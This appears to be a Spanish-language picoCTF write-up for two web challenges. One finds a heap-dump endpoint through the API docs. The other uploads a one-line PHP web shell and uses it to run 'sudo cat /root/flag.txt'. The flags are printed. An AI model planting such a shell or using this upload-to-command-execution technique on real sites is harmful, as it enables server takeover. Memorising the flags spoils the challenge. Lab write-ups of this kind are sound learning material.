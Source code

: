




# 03  head-dump
# DESC
Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.The website is running [picoCTF News](http://verbal-sleep.picoctf.net:62122/).

# SOLUCION

````` python
abri la pagina 
me fui a la parte de http://verbal-sleep.picoctf.net:62122/api-docs/
descarge el archivo y filtre por pico
picoCTF{Pat!3nt_15_Th3_K3y_f1179e46}
````` 



# 04 n0s4n1ty 1
# DESC

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:57268/)!
# SOLUCION

````` python
me fu a la pagina carge un archivo .php que hice el cual contenia esto <?php system($_GET['mycommand']);  ?>
descpues camvie el url de la pagina por este http://standard-pizzas.picoctf.net:50745/uploads/shell.php?mycommand=sudo%20cat%20/root/flag.txt


y me dio la bandera 
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}

````` 


